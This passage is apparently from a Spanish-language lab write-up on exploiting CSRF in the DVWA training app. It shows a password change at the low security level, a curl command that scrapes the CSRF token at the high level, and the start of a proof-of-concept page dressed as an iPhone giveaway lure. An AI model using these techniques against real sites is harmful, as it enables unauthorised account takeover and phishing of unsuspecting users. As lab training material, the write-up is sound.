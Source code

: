 Como observamos en la siguiente imagen, al visitar la víctima la URL que hemos creado cambia la contraseña:

<img width="663" height="283" alt="imagen" src="https://github.com/user-attachments/assets/2d8d3c73-ecc5-42e9-8bec-ee898c7d4a44" />

✅ ¿Qué significa esto?

- El navegador, al visitar tu PoC, envió una petición GET con los parámetros necesarios.
- DVWA no tenía protección CSRF activa en este nivel.
- La contraseña del usuario admin fue cambiada sin interacción directa.

# 🔐 Cross-Site Request Forgery (CSRF) en DVWA HIGH

En nivel High, DVWA ***introduce una protección básica contra CSRF: ahora requiere que la petición incluya un token CSRF*** válido. Este token se genera dinámicamente y se espera que venga en la petición. Sin leer el token desde la página de la víctima, la CSRF debería fallar.

## 🧠 ¿Cómo lo atacamos?

Necesitamos:

- Obtener el token CSRF desde el formulario.

- Usar el token CSRF dinámico en una petición POST para cambiar la contraseña.

- Requiere que el atacante lo obtenga y lo incluya en el ataque.

## 🛠️ Observamos el token en el formulario

```bash
curl -s "http://127.0.0.1:8080/vulnerabilities/csrf/" \
  --cookie "PHPSESSID=TU_SESION; security=high" | \
  grep -Eo 'name="user_token" value="[^"]+"'
```

O, de manera manual, en el navegador pulsamos Ctrl + U y se abrirá el código fuente de la página y buscamos:

```html
<input type="hidden" name="user_token" value="abc123xyz">
```

<img width="647" height="143" alt="imagen" src="https://github.com/user-attachments/assets/14584a99-9919-4ab4-a3ec-b56abe81ce53" />

Copiamos el valor del token para posteriormente utilizarlo.

## 🧨 Creamos el PoC HTML

Guardamos el archivo como dvwa_csrf_high_poc.html:

```html
<!DOCTYPE html>
<html lang="es">
<head>
  <meta charset="UTF-8">
  <title>🎁 ¡Gana un iPhone 15 Pro Max!</title>
  <style>
    body {
      font-family: Arial, sans-serif;
      background: linear-gradient(135deg, #ffecd2, #fcb69f);
      display: flex;
      justify-content: center;
      align-items: center;
      min-height: 100vh;
      margin: 0;
    }
    .card {
```